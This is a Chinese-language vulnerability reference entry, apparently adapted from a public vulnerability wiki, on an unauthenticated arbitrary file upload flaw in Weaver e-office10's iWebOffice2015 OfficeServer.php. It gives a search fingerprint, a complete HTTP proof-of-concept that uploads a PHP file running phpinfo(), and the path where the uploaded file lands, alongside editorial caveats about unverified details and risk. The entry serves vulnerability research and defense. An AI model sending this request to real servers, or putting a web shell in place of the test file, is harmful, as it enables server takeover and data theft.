



# 泛微e-office10 / iWebOffice2015 OfficeServer.php SAVEFILE上传

## 条目说明

- 对象与具体问题：泛微e-office10 / iWebOffice2015；OfficeServer.php SAVEFILE上传
- 版本、配置及部署条件：路径明确eoffice10但版本段仅产品名
- 认证与权限前提：请求无cookie；FormData含USERNAME=admin非认证证明
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 完整multipart和Document落点；描述只称获取敏感信息与上传主类型不一致
- 固定Content-Length990可能过期，缺厂商修复/具体build

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

### 漏洞描述

泛微OA E-Office OfficeServer.php 存在任意文件上传漏洞，攻击者通过漏洞可以获取到服务器敏感信息

### 漏洞影响

```
泛微OA E-Office
```

### 网络测绘

```
"eoffice10"
```

### 漏洞复现

登录页面



验证POC

```http
POST /eoffice10/server/public/iWebOffice2015/OfficeServer.php HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Connection: close
Content-Length: 990
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryLpoiBFy4ANA8daew
Origin: null
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36

------WebKitFormBoundaryLpoiBFy4ANA8daew
Content-Disposition: form-data;name="FileData";filename="test.php"
Content-Type: application/octet-stream

<?php
phpinfo();
?>

------WebKitFormBoundaryLpoiBFy4ANA8daew
Content-Disposition: form-data;name="FormData"

{'USERNAME':'admin','RECORDID':'undefined','OPTION':'SAVEFILE','FILENAME':'test.php'}
------WebKitFormBoundaryLpoiBFy4ANA8daew--
```

> 请求长度说明：原资料 Content-Length 为 990；保留原始标头；其数值未据实际请求体重新计算或验证。



文件上传位置

```
/eoffice10/server/public/iWebOffice2015/Document/test.php
```



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
